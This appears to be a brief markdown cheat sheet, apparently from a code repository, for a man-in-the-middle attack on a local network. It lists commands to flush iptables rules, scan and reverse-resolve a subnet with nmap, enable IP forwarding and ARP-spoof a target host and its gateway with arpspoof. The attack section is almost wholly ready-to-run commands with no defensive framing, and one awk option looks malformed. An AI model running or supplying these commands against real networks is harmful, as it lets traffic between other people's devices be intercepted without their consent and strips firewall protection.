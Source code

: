 # MITM

### flush iptables

```
sudo iptables -t filter -F
```

### reverse dns

```
nmap -sL 192.168.1.0/24 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

### get alive hosts

```bash
nmap -sn 192.168.1.68
# if ping is blocked
nmap -Pn 192.168.1.68
```

### MITM

```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t filter -A FORWARD -j ACCEPT
sudo arpspoof -i eth0 -t 192.168.1.224 -r 192.168.1.1
```



